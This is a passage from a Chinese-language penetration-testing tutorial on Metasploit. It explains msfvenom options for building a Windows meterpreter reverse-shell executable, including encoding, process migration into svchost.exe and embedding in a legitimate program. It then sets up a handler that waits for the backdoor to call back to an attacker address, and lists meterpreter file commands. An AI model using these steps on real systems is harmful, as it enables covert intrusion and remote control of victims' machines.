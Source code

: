 -   `-p windows/meterpreter/reverse_tcp`，是选择的 Payload。
-   `-a x86_64`，目标系统架构，比如是什么语言写的应用系统呀，选对的位数避免兼容问题，不然可能无法上线。
-   `--platform windows`，目标系统平台架构，确保兼容，比如：Windows 还是 Linux 或者是 Android。
-   `LHOST=45.32.*.* LPORT=6000`，指定要反弹 Shell 到哪台机器上 6000 端口。
-   `-e x64/xor_dynamic -i 15`，选择 shikata\_ganai 编码器将 payload 编码 15 次。并没什么用处，无法过杀软。
-   `-b，用于去除 %ff %00` 这种坏字符，而且会自动选择编码器
-   `PrependMigrate=true`，当这个进程被杀了之后，我要迁移进程。
-   `PrependMigrateProc=svchost.exe`，将进程迁移到 svchost.exe，迁移到 explorer.exe 也是个不错的选择
-   `-x ./mongo.exe`，使用 mongo.exe 来作为模板，它的功能还在只不过将 payload 也加进去了。没咋用过此选项。
-   `-k`，在程序运行中不会产生新进程只会在进程中多出一个线程，也就是说运行 1.exe 不会产生一个 2.exe 出来
-   `-f exe`，是文件输出格式，比如：python 脚本或是 c 的源代码也可是 exe 可以执行程序等等...
-   `-o`，将 Payload 保存在哪里。

另一种是在 Console 种生成

1.  msfconsole
2.  msf > use payload/windows/x64/meterpreter/reverse\_tcp
3.  set lhost 192.168.1.118
4.  generate

监听端口等待后门反连。

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 45.32.1.1
msf exploit(handler) > set lport 6000
msf exploit(handler) > exploit
```

用 MSF 生成 exe 文件来反弹 Shell，如果 Windows Shell 界面乱码可以临时设置终端编码为 UTF-8。

```bash
chcp 65001
```

### Meterpreter

这种 Shell 是运行在内存中的，比如说把自身当做线程写入到某一个进程中，不写入硬盘。接着建立 socket 链接，通过链接上传并加载 DLL 到进程中，此时就开放了某些 API，通过 Socket 链接建立 TLS 通信隧道，以此向客户端发送一些命令，这些命令由这个 API 去执行。

在 `set payload` 时指定 Meterpreter 分类下的各种 payload。

shellcode 执行成功返回 meterpreter Shell 后，也可以使用 help 来获得帮助信息。

```bash
meterpreter > help
```

#### 常用命令

##### 文件

对目标文件系统进行操作。

| Command | Description |
| --- | --- |
| cd  | 切换目录，在命令前面加个 l 就是在本地操作。 |
| cp  | 复制 x 到哪里去。 |
| ls  <br>dir | 显示当前目录下的文件，dir 命令作用与它一致。在命令前面加个 l 就是在本地操作。 |
| pwd  <br>getwd | 显示目标系统当前工作目录，getwd 与 pwd 作用相同。在命令前面加个 l 就是在本地操作。 |
| edit | 在目标系统当前活动目录中编辑或创建文件，和 vi 一样操作。 |
| cat | 读取一个文件内容并显示在屏幕上。 |
| mkdir | 在目标文件系统上创建一个目录。 |
| mv  | 移动目标文件系统中的内容到指定位置。 |